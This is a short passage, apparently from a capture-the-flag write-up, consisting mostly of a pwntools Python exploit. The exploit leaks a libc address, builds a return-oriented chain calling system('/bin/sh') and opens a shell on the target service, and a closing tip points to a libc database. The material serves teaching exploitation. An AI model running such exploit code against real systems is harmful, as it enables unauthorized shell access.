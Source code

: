 ```python
io.sendlineafter(b':P', payload)

io.recvlines(2)  # Blank line

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Payload to get shell: system('/bin/sh')
payload = flat({
    offset: [
        pop_rdi,
        next(libc.search(b'/bin/sh\x00')),
        libc.symbols.system
    ]
})

# Send the payload
io.sendline(payload)

# Got shell
io.interactive()
```

> If you don't know what `libc` version the server is running in, you can reference a [libc database](https://libc.blukat.me/).